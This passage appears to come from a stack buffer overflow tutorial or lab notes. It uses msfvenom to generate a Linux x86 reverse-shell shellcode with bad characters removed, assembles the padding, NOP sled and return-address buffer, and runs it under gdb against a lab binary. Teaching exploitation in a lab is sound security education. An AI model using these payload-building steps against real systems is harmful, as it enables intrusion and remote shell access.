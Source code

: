 **This process must be repeated until all characters that could interrupt the flow are removed.**

## Generating Shellcode 

Before we generate our shellcode, we have to make sure that the individual components and properties match the target system. Therefore we have to pay attention to the following areas:
- Architecture
- Platform
- Bad Characters

To generate with **msfvenom**:
```
zero@pio$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

> We must eliminate the chars with `--bad-chars "<chars"`
{: .prompt-info}


Let's replace our CHAR by the Shellcode:
```
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

Now send it and check it:
```
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc () 

gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```
